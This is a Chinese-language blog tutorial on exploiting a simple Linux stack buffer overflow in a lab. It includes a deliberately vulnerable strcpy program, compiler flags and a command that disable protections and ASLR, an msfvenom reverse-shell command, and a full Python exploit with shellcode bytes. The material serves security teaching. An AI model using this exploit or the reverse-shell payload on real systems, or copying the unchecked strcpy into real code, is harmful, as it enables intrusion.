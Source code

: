 ---
layout: post
title: "Linux Simple Stack overflow"
----

#### 环境准备 ####

环境： kaili 2017.2 64位

工具： peda

简单的漏洞程序：

    #include <stdio.h>
    #include <string.h>
    
    void my_func(char *buff) {
    	char msg[256];
    	strcpy(msg, buff);
    }
    
    int main(int argc, char *argv[]) {
    	my_func(argv[1]);
    	return 0;   
    }

编译：

	gcc -g -fno-stack-protector -z execstack -o vul stack.c

关闭ASLR

	echo 0 > /proc/sys/kernel/randomize_va_space

通过peda的checksec可以查看我们加载程序启用了那些[安全机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)。

其他一些安全机制的控制：

- NX：`-z execstack / -z noexecstack` (关闭 / 开启)
- Canary：`-fno-stack-protector /-fstack-protector / -fstack-protector-all` (关闭 / 开启 / 全开启)
- PIE：`-no-pie / -pie` (关闭 / 开启)
- RELRO：`-z norelro / -z lazy / -z now` (关闭 / 部分开启 / 完全开启)

#### 0x00 漏洞原理 ####

由于用户的输入没有做长度控制，导致覆盖了栈上函数调用时的返回地址，在函数调用结束时`ret`指令的调用，控制了EIP从而导致任意指令执行，本次实例关闭了所有的安全机制为理想情况。

熟悉这个漏洞最关键的一点，熟悉栈的内存布局：

<pre>low addr +-->  +-------------------+
               |     .........     |
               +-------------------+
               |                   |
      ^        |                   |
      |        |                   |
      |        |                   |
      |        |                   |
      |        +-------------------+
      |        |      msg[256]     |
      |        +-------------------+
      |        |     saved EBP     |
      |        +-------------------+
      |        |    return addr    |
               +-------------------+ <--- call my_func
               |    arg0=argv[1]   |
               +-------------------+
               |     .........     |
high addr +--> +-------------------+</pre>

在上图中，可以看到进入`my_func`中时本地变量`msg[256]`的位置，在`my_func`函数中会使用不安全的函数`strcpy`，将用户的输入写入本地变量`msg`中，如果数据过长会覆盖`saved EBP`和`return addr`,这样就导致了函数返回地址被劫持，产生漏洞

#### 0x01 漏洞触发和利用 ####

核心思路为：

- 识别到漏洞点
- 找到偏移量
- 找到跳转地址
- shellcode

通过`gdb`加载漏洞程序`vul`,首先查看安全机制的开启情况：

![sov]({{ '/images/201803/sov_1_1.png' | prepend: site.baseurl }})

设置参数开始运行程序,由于我们看到msg本身为256长度的数组，我们设置我们的paylaod长度为300测试看是否能触发漏洞

![sov]({{ '/images/201803/sov_1_2.png' | prepend: site.baseurl }})

发生异常，此时执行的指令为`ret`(会将栈顶的数据放入EIP中)，此时查看`rsp`发现此时栈顶的数据为`0x41414141`

![sov]({{ '/images/201803/sov_1_3.png' | prepend: site.baseurl }})

我们使用`peda`内置的`pattern_create`和`pattern_offset`工具来寻找准确的偏移

![sov]({{ '/images/201803/sov_1_4.png' | prepend: site.baseurl }})
![sov]({{ '/images/201803/sov_1_5.png' | prepend: site.baseurl }})

我们确定了准确的偏移为264， 确定了偏移后我们要找到一个跳转的地址指向我们的payload， 我们这里简化直接通过gdb调试查看栈的地址(我们关闭了各种安全机制，所以这里地址不会变化)，可以发现在strcpy的参数中可以看到位置`0x7fffffffde80`就是`msg`的栈地址

![sov]({{ '/images/201803/sov_1_6.png' | prepend: site.baseurl }})

现在找到了跳转地址，还缺最后的shellcode，我们直接使用`msfvenom`来生成一个反向shell

	msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f python


所有都已经准备好，写一个简单的python脚本来整合我们所有的东西

<pre>#!/usr/bin/python
import struct

# msf reverse shell
shellcode =  ""  
shellcode += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
shellcode += "\xef\xff\xff\xff\x48\xbb\xd1\x6b\x1d\x16\x26\x86\x6e"
shellcode += "\xc3\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
shellcode += "\xbb\x42\x45\x8f\x4c\x84\x31\xa9\xd0\x35\x12\x13\x6e"
shellcode += "\x11\x26\x7a\xd3\x6b\x0c\x4a\x59\x86\x6e\xc2\x80\x23"
shellcode += "\x94\xf0\x4c\x96\x34\xa9\xfb\x33\x12\x13\x4c\x85\x30"
shellcode += "\x8b\x2e\xa5\x77\x37\x7e\x89\x6b\xb6\x27\x01\x26\x4e"
shellcode += "\xbf\xce\xd5\xec\xb3\x02\x73\x39\x55\xee\x6e\x90\x99"
shellcode += "\xe2\xfa\x44\x71\xce\xe7\x25\xde\x6e\x1d\x16\x26\x86"
shellcode += "\x6e\xc3"

payload_len = 264 
nop_len = 20
shell_len = len(shellcode)
padding_len = payload_len - nop_len - shell_len
return_addr = struct.pack("<Q", 0x7fffffffde80)

nop = "\x90"*nop_len
padding = "B"*padding_len

print nop + shellcode + padding + return_addr</pre>

所有都准备好后，重新加载我们的payload

	gdb-peda$ r `python exp.py`

另外一个终端，成功接收到shell

![sov]({{ '/images/201803/sov_1_7.png' | prepend: site.baseurl }})

至此入门级别的stack buffoverflow漏洞利用结束

#### 0x02 总结 ####

目前这样的漏洞只能存在实验环境，适合做入门了解，真实的漏洞利用会相当复杂。 

KEEP GOING!!!


参考：

https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/